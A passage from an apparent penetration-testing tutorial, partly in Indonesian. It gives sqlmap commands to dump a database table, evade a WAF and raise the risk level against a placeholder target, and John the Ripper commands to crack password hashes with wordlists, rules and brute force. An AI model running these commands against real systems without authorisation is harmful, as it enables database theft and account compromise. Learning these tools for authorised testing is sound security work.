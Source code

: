 ```bash
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T table_name --dump
```

#### Advanced Options
```bash
# Bypass WAF
sqlmap -u "http://target.com/page.php?id=1" --tamper=space2comment

# Use proxy
sqlmap -u "http://target.com/page.php?id=1" --proxy="http://127.0.0.1:8080"

# Custom User-Agent
sqlmap -u "http://target.com/page.php?id=1" --user-agent="Custom Agent"

# Batch mode (non-interactive)
sqlmap -u "http://target.com/page.php?id=1" --batch

# Risk and level
sqlmap -u "http://target.com/page.php?id=1" --risk=3 --level=5
```

### 5. John the Ripper - Password Cracking

#### Instalasi
```bash
# Kali Linux (pre-installed)
john

# Ubuntu/Debian
sudo apt install john

# Compile from source
git clone https://github.com/magnumripper/JohnTheRipper.git
cd JohnTheRipper/src
make
```

#### Basic Usage
```bash
# Crack password hashes
john hashes.txt

# Use specific wordlist
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

# Show cracked passwords
john --show hashes.txt

# Crack with rules
john --rules --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

# Brute force attack
john --incremental hashes.txt

# Crack specific hash format
john --format=NT hashes.txt
```
